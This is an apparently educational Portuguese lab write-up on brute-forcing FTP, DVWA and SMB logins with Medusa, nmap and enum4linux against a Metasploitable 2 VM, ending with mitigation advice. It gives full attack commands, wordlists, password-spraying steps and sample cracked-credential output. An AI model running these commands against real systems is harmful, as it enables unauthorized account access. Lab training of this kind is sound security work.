






# Desafio de Força Bruta com Medusa 🔓

## 🎯 Objetivo
Simular ataques de força bruta em serviços (FTP, DVWA, SMB) usando Kali Linux e Medusa em ambiente controlado com Metasploitable 2.

## 🖥️ Ambiente
- **Atacante**: Kali Linux 
- **Alvo**: Metasploitable 2
- **Rede**: Host-only no VirtualBox

## 🔧 Ferramentas Utilizadas
- `medusa`
- `nmap`
- `enum4linux`
- DVWA (Damn Vulnerable Web App)

## 🛠️ Passo 1: Configuração do Ambiente

### 1.1 Instale o VirtualBox
- Baixe em: https://www.virtualbox.org/

### 1.2 Crie duas VMs
- **Kali Linux**:
  - Imagem oficial: https://www.kali.org/get-kali/
  - Rede: **Host-only Adapter**
- **Metasploitable 2**:
  - Imagem: https://sourceforge.net/projects/metasploitable/
  - Rede: **Host-only Adapter** (mesma rede que o Kali)

> ⚠️ Verifique se ambas as VMs estão na mesma rede host-only (ex: `192.168.56.102`). Use `ip a` ou `ifconfig` para confirmar.

### 📷 Imagem de exemplo:



### 1.3 Teste a conectividade
Kali:
```bash
ping -c 3 192.168.56.102  # substitua pelo IP do Metasploitable
```

### 📷 Imagem de exemplo:


## 🔍 Passo 2: Enumeração Inicial

Use o `nmap` para descobrir serviços abertos:

```bash
nmap -sV -p 21,80,139,445 192.168.56.102  # substitua pelo IP do Metasploitable
```

Você deverá ver:
- FTP (porta 21)
- HTTP (porta 80 → DVWA)
- SMB (porta 139/445)

### 📷 Imagem de exemplo:



## 💥 Passo 3: Ataques com Medusa

> Certifique-se de que o `medusa` está instalado no Kali (já vem por padrão).

### 3.1 Ataque ao FTP

**Objetivo**: Quebrar credenciais do serviço FTP (ex: usuário `msfadmin`).

**Wordlist simples** (`users.txt` e `pass.txt`):
```txt
# users.txt
user
msfadmin
admin
root

# pass.txt
123456
password
qwerty
msfadmin
```

**Comando para criação de Wordlist users.txt e pass.txt**:
```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt  
```

```bash
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt  
```

**Comando Medusa**:
```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6 
```

✅ Se bem-sucedido, você verá:
```
ACCOUNT FOUND: [ftp] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
```

### 📷 Imagem de exemplo:



### 3.2 Ataque ao DVWA (formulário web)

Usando **Medusa** para o ataque, configure o módulo corretamente:

1. Acesse o DVWA via navegador: `http://192.168.56.102/dvwa`
2. Faça login como `admin:password` (credenciais padrão)
3. Vá para **Security → Low** (para facilitar)
4. Anote o caminho do formulário: geralmente `/dvwa/login.php`
5. Identifique os parâmetros: `username`, `password`, e o campo de redirecionamento (ex: `Login`)

**Wordlists** (`users.txt`, `pass.txt`):
```txt
# users.txt
user
msfadmin
admin
root

# pass.txt
123456
password
qwerty
msfadmin
```

**Comando para criação de Wordlist users.txt e pass.txt**:
```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt  
```

```bash
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt  
```

**Comando Medusa**:
```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http \ -m PAGE:'/dvwa/login.php' \ -m 
FORM:'username=^USER^&password=^PASS^&Login=Login' \ -m 'FAIL=Login failed' \ -t 6 
```

### 📷 Imagem de exemplo:



### 3.3 Ataque SMB com Password Spraying + Enumeração

#### 3.3.1 Enumerar usuários (com `enum4linux` ou `nmap`)

```bash
enum4linux -a 192.168.56.102 | tee enum4_output.txt 
```
```bash
less enum4_output.txt 
```

### 📷 Imagem de exemplo:



#### 3.3.2 Password Spraying com Medusa

**Comando para criação de Wordlist smb_users.txt e senhas_spray.txt**:
```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt   
```

```bash
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt  
```

Use uma **única senha comum** contra **vários usuários**:

```bash
medusa -h 192.168.56.102 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50 
```

> `smbnt` é o módulo do Medusa para autenticação SMB (NTLM).

Arquivo `smb_users.txt`:
```txt
user
msfadmin
service
```

✅ Se funcionar:
```
ACCOUNT FOUND: [smbnt] Host: 192.168.56.102 User: msfadmin Password: msfadmin
```

### 📷 Imagem de exemplo:



## 🛡️ Recomendações de Mitigação

- **FTP**: Substituir por SFTP/FTPS ou desativar se não for essencial.
- **DVWA**: Nunca expor em produção; usar autenticação forte e bloqueio após tentativas.
- **SMB**: Desativar contas padrão (`msfadmin`, `user`), usar senhas complexas e segmentar rede.
- **Geral**: Monitorar logs de autenticação e aplicar política de senhas robustas.

## 📚 Aprendizados

- Como ataques de força bruta exploram credenciais fracas.
- A importância de ambientes isolados para testes de segurança.
- Medusa é eficaz em serviços legados, mas formulários web exigem mais cuidado.
- Documentação clara é essencial para reproduzir e validar testes.

## 📎 Recursos
- [Kali Linux](https://www.kali.org/)
- [Medusa Docs](http://foofus.net/goons/jmk/medusa/medusa.html)
- [DVWA GitHub](https://github.com/digininja/DVWA)
